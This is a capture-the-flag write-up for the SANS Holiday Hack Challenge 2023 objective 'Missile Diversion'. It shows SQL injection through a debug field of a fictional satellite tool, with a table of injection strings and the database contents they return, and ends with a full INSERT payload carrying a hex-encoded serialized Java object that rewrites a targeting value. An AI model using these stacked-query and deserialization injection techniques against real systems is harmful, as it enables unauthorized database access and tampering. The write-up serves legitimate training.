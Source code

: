 # OBJECTIVE 22 - Missile Diversion #
_Completed by 1.88% of challenge participants_
## OBJECTIVE : ##
>Thwart Jack’s evil plan by re-aiming his missile at the Sun.
#  

## HINTS: ##
<details>
  <summary>Hints provided for Objective 22</summary>
  
>-  Wombley thinks he may have left the admin tools open. I should check for those if I get stuck.
</details>

#  

## PROCEDURE : ##
This challenge continues where OBJECTIVE 21 left off.  We are still connected to the **NanoSat MO Base Station Tool** and need to figure out how to re-aim a missile that is currently aimed at Earth.

After some playing-around with the **NanoSat MO Base Station Tool** I found that by going to the **Action Service** tab, selecting the `Debug` action,  clicking on **submitAction** and clicking **Edit** I was able to pass on SQLI test strings that seemed to be parsed by the program.  For example if I enter `OR 1=1;` as value string then go to the **Parameter Service** tab,  select `Debug` and click on **getValue**, I get the output:  `rawValue: VERSION() OR 1=1: 1`

Using this method I was able to get some interesting information which I enumarted in the following table:

SQLI | String	Response
:---|:---
OR 1=1;|	VERSION() OR 1=1:1
;	VERSION():| 11.2.2-MariaDB-1:11.2.2+maria~ubu2204
=1 order by 1,2|	Unknow column ‘2’ in ‘order clause’
=1 order by 1	|VERSION()=1:0
; select table_name from information_schema.tables|	Output is very long and needs to be captured using Wireshark as per the procedure followed in Objective 20 – Camera Access but gives us a list of all the tables in the schema which is very useful to enumerate the rest.
; select * from target_coordinates|	Id: 1 \| lat: 1.14514 \| lng: -145.262
; select * from pointing_mode	|id: 1 \| numerical_mode: 0 \|
; select * from pointing_mode_to_string|	Id: 1 \| numerical_mode: 0 \| str_mode: Earth Point Mode \| str_desc: When pointing_mode is 0, targeting system applies the target_coorinates to earth. \| id: 2 \| numerical_mode: 1 \| str_mode: Sun Point Mode \| str_desc: When pointing_mode is 1, targeting system points at the sun, ignoring the coordinates.
; select * from messaging	|id: 1 \| msg_type: RedAlphaMsg \| msg_data: RONCTTLA \| id: 2 \| msg_type: MsgAuth \| msg_data: 220040DL \| id: 3 \| msg_type: LaunchCode \| msg_data: DLG2209TVX \| id: 4 \| msg_type: LaunchOrder \| msg_data: CONFIRMED \| id: 5 \| msg_type: TargetSelection \| msg_data: CONFIRMED \| id: 6 \| msg_type: TimeOnTargetSequence \| msg_data: COMPLETE \| id: 7 \| msg_type: YieldSelection \| msg_data: COMPLETE \| id: 8 \| msg_type: MissileDownlink \| msg_data: ONLINE \| id: 9 \| msg_type: TargetDownlinked \| msg_data: FALSE \| 
; select * from sattelite_query	|**[JAVA CODE](Code/SatelliteQueryFileFolderUtility.java)**
; show columns from satellite_query;|	COLUMN_NAME: jid \| COLUMN_TYPE: int(11) \| IS_NULLABLE: NO \| COLUMN_KEY: PRI \| COLUMN_DEFAULT: null \| EXTRA: auto_increment \|COLUMN_NAME: object \| COLUMN_TYPE: blob \| IS_NULLABLE: YES \| COLUMN_KEY: COLUMN_NAME: results \| COLUMN_TYPE: text \| IS_NULLABLE: YES \| COLUMN_KEY:convertedValue: null COLUMN_DEFAULT: null \| EXTRA: \| COLUMN_DEFAULT: null \| EXTRA: \|
; show columns from pointing_mode|	COLUMN_NAME: id \| COLUMN_TYPE: int(11) \| IS_NULLABLE: NO \| COLUMN_KEY: PRI \| COLUMN_DEFAULT: null \| EXTRA: auto_increment \| COLUMN_NAME: numerical_mode \| COLUMN_TYPE: int(11) \| IS_NULLABLE: YES \| COLUMN_KEY: \| COLUMN_DEFAULT: null \| EXTRA: \|

First of all – hats off for including a [Wargames reference](https://i.gifer.com/7Mzk.gif) in the `messaging` table.  Secondly by using SQL Injection it was possible to retrieve a lot of useful information.  Namely:
-	The coordinates are useless to us and we do nto need to be concerned with them.
-	The table `pointing_mode` determines where the missile is pointed and by changing the value stored under column `numerical_mode` from `0` to `1` we can re-aim the missiles to the sun.
-	The table `sattelite_query` has some kind of query in the object column and under results there is [some Java code](Code/SatelliteQueryFileFolderUtility.java)

I pasted the string I found in `satellite_query` as well as the java code in [ChatGPT](https://chat.openai.com/) and from there I learned that the string in the object column is a **serialized java object**.  The Java code retrieved from the results column takes this serialised object as it’s input and parses a SQL query, SQL update or retrieves a file.

I prompted ChatGPT to create a java program that would accept a SQL command as input and would use the [Java code I retrieved](Code/SatelliteQueryFileFolderUtility.java) to prepare a hex string that can be fed back to it as an input.  Using [this program](Code/serializer.java) I created a hex string for the SQL command ``UPDATE pointing_mode SET numerical_mode = 1 WHERE Id = 1``.
I then included the resulting serialized hex in a SQL command to add it as a new entry in `satellite_query` and I pasted this into the `debug` field similarly to how I exfiltrated the database info earlier:
```sql
; INSERT INTO satellite_query (jid, object)
VALUES (2, 0xaced00057372001f536174656c6c697465517565727946696c65466f6c6465725574696c69747912d4f68d0eb392cb0200035a0007697351756572795a000869735570646174654c000f706174684f7253746174656d656e747400124c6a6176612f6c616e672f537472696e673b7870010174003855504441544520706f696e74696e675f6d6f646520534554206e756d65726963616c5f6d6f6465203d2031205748455245204964203d2031);
```
(NOTE the preceeding `;` and the `0x` before the hex string)

This updated the value of `numerical_mode` in `pointing_mode` from `0` to `1` thus pointing the missile safely towards the sun and away from the Earth.

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2023/assets/60655500/74e7b554-6a65-421d-8e81-f577bad6a9ab)


This write-up is almost ridiculously short for a challenge that took me **close to seven hours** to complete!  

